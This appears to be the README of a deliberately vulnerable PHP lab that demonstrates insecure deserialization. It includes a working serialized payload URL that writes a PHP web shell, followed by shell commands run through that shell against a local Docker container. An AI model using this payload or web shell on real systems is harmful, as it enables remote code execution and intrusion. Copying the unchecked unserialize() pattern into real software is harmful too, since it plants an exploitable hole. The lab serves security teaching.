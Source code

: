 # Insecure Deserialization
tl;dr

User locally serializes some data and passes it to our app which uploads a shell.

## Files 

```
file.php
```
Blindly accepts anything and runs unserialize()

```
serialize.php
```
Generates a serialized exploit

## Installing

Git checkout this repo

```
cd into this repo
```

```
docker build -t insecure_deserialize:latest .
```

## Running

```
docker run -d insecure_deserialize:latest -p 33322:80
```

## Exploting

* First we serialize our payload with serialize.php
```
php serialize.php
```

* We then copy our payload and run it against our vulnerable site
* * If the payload executes the screen will return white
```
http://localhost:33322/file.php?u=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}
```

* We now have a simple cmd shell on our host and can execute away

```
http://localhost:33322/simple_shell.php?cmd=whoami
```
```
http://localhost:33322/simple_shell.php?cmd=ls -la
```

## Thanks

[1]https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf

